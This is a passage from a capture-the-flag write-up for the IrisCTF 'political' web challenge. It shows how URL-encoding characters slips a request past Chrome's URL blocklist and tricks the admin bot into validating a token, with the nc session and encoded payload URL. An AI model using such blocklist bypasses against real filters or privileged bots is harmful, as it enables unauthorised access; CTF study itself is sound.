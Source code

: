 Due to Chrome's URL blocklist behavior, encoded characters in the URL are treated literally. This means:


>Chrome's URL blocklist typically operates on the raw URL string without normalizing or decoding it. This means that encoded characters are treated as literal parts of the URL rather than their decoded equivalents.
{: .prompt-tip }

- URL encoding the constructed URL bypasses the policy: `https://political-web.chal.irisc.tf/giv%65flag?tok%65n=ff71b78003353e5c769e68cb310a13eb`

When the bot processes this URL:

1. It visits the `/giveflag` endpoint with the `admin` cookie.
2. The `valid_tokens[token]` is set to `True`.

```bash
└─$ nc political-bot.chal.irisc.tf 1337
== proof-of-work: disabled ==
Please send me a URL to open.
https://political-web.chal.irisc.tf/giv%65flag?tok%65n=ff71b78003353e5c769e68cb310a13eb
Loading page https://political-web.chal.irisc.tf/giv%65flag?tok%65n=ff71b78003353e5c769e68cb310a13eb.
timeout
```


> The timeout is not an issue because the time taken to render the webpage exceeds the timeout duration specified in the environment variable (`BOT_TIMEOUT`) . but the bot visits with the admin cookie and token is insterted into valid cookie
 {: .prompt-tip }


---

### **FLAG RETRIEVAL**

Finally, access the `/redeem` endpoint with the token to retrieve the flag.


```
irisctf{flag_blocked_by_admin}
```


---
